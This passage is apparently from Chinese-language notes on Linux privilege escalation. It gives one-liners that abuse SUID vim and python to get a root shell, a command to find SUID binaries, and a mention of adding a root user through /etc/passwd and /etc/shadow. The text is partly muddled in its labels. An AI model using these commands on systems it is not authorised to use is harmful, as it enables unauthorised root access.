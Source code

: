 ![image-20241017181146750](操作系统提权/image-20241017181146750.png)	

```
使用这个新用户登录，那么此时拥有root权限
```

![image-20241017181215030](操作系统提权/image-20241017181215030.png)	

```
第二种方式，利用vim打开交互shell
vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

![image-20241017181407356](操作系统提权/image-20241017181407356.png)	

```
利用python提权。
利用vim提权的思路是修改/etc/passwd文件和/etc/shadow，为自己添加一个有root权限的用户
chmod u+s /usr/bin/python
查看哪些命令具有suid权限
find / -user root -perm -4000 -print 2>/dev/null
```

![image-20241017181604652](操作系统提权/image-20241017181604652.png)	

```
提权命令
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
命令解释
vim 命令中的 -c 参数允许你在启动 vim 时运行一条 vim 内部的命令
```
